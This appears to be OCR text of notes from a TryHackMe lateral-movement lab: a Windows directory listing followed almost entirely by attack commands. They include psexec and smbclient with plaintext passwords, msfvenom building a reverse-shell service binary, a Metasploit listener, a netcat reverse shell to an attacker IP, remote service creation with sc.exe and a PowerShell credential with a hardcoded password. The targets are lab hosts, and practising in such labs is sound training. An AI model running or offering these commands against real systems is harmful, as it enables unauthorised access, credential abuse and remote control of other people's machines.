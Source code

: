 08/02/2025  07:07 PM    <DIR>          t2_felicia.dean                          
06/21/2022  01:05 PM    <DIR>          t2_henry.bird                            
06/22/2022  01:39 PM    <DIR>          t2_jasmine.stanley                       
08/02/2025  04:04 PM    <DIR>          t2_kelly.blake                           
06/20/2022  01:30 PM    <DIR>          t2_lewis.holloway                        
06/20/2022  03:50 AM    <DIR>          t2_natasha.howells                       
08/02/2025  01:30 PM    <DIR>          tracey.turner                            
06/14/2022  03:36 PM    <DIR>          vagrant                                  
               0 File(s)              0 bytes                                   
              40 Dir(s)   8,422,273,024 bytes free    



ssh t1_leonard.summers@za.tryhackme.com@thmjmp2.za.tryhackme.com


psexec64.exe \\10.200.48.249 -u Administrator -p Mypass123 -i cmd.exe




msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.46.190 LPORT=4444 -o myservice.exe


smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever





ser@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit




msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"




runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.46.190 4443"



sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto

sc.exe \\thmiis.za.tryhackme.com start THMservice-3249








$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
